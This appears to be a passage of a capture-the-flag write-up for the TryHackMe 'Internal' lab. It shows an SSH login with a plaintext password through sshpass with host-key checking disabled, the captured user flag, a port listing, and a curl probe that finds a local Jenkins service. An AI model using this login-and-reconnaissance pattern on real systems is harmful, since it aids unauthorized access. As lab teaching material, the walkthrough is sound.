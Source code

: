 ```bash
sshpass -p 'bubb13guM!@#123' ssh -o "StrictHostKeyChecking no" aubreanna@internal.thm
```

```bash
aubreanna@internal:~$ id
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
aubreanna@internal:~$ cat user.txt
THM{int3rna1_fl4g_1}
aubreanna@internal:~$
```


## Privilege Escalation


### Discover jenkins

```bash
aubreanna@internal:/etc/apache2/sites-enabled$ ss -ltnp
State                      Recv-Q                      Send-Q                                             Local Address:Port                                              Peer Address:Port
LISTEN                     0                           80                                                     127.0.0.1:3306                                                   0.0.0.0:*
LISTEN                     0                           128                                                    127.0.0.1:8080                                                   0.0.0.0:*
LISTEN                     0                           128                                                127.0.0.53%lo:53                                                     0.0.0.0:*
LISTEN                     0                           128                                                      0.0.0.0:22                                                     0.0.0.0:*
LISTEN                     0                           128                                                    127.0.0.1:34939                                                  0.0.0.0:*
LISTEN                     0                           128                                                            *:80                                                           *:*
LISTEN                     0                           128                                                         [::]:22                                                        [::]:*
```

```bash
aubreanna@internal:/etc/apache2/sites-enabled$ curl 127.0.0.1:8080
<html><head><meta http-equiv='refresh' content='1;url=/login?from=%2F'/><script>window.location.replace('/login?from=%2F');</script></head><body style='background-color:white; color:white;'>


Authentication required
<!--
You are authenticated as: anonymous
Groups that you are in:

Permission you need to have (but didn't): hudson.model.Hudson.Read
 ... which is implied by: hudson.security.Permission.GenericRead
 ... which is implied by: hudson.model.Hudson.Administer
-->

</body></html> 
```
